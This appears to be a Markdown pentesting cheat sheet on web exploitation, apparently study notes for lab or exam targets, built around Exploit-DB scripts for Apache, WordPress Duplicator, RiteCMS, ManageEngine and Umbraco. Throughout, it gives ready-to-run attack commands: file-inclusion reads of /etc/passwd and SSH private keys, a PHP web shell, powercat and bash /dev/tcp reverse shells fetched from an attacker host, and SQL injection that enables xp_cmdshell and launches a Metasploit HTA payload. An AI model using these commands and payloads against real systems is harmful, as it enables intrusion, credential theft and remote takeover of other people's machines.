 # 02 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: Local File Inclusion](#Example-Local-File-Inclusion)
    - [ID 50383 CVE-2021-41773](#ID-50383-CVE-2021-41773)
    - [ID 50420 CVE-2020-11738](#ID-50420-CVE-2020-11738)
    - [ID 50616 File Upload](#ID-50616-File-Upload)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793 CVE-2020-14008](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
    - [ID 49488 RCE and Reverse Shell](#ID-49488-RCE-and-Reverse-Shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: Local File Inclusion
### ID 50383 CVE-2021-41773
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

### ID 50420 CVE-2020-11738
Wordpress Plugin Duplicator 1.3.26:
``` bash
python3 50420.py http://192.168.1.1 /etc/passwd             ## read file passwd, user enum
python3 50420.py http://192.168.1.1 /home/$user/.ssh/id_rsa ## read rsa key, possible ssh access
```

### ID 50616 File Upload
RiteCMS RCE:
- Need valid credentials (ex: admin/admin) to upload a php shell (shell.pHP)
``` php
<?php echo system($_GET['cmd']); ?>                         ## shell.pHP
```
Check the RCE:
``` bash
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=whoami ## for windows
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=id     ## for linux
```
Windows Reverse Shell (powercat.ps1 based):
``` bash
### exploit                                          ### command               ### reverse shell                                    ### KALI                        ### require nc listener: nc -nvlp 443
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=powershell -nop -w hidden IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 443 -e powershell
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KAI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

### ID 49488 RCE and Reverse Shell
Umbraco 7.14 RCE p-o-c:
``` bash
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c whoami
```
Exploit + Reverse Shell Payload (powercat based):
``` bash
### exploit                                                    ### command   ### reverse shell as argument                            ### KALI                    ### require nc listener: nc -nvlp 443
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c powershell -a "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```

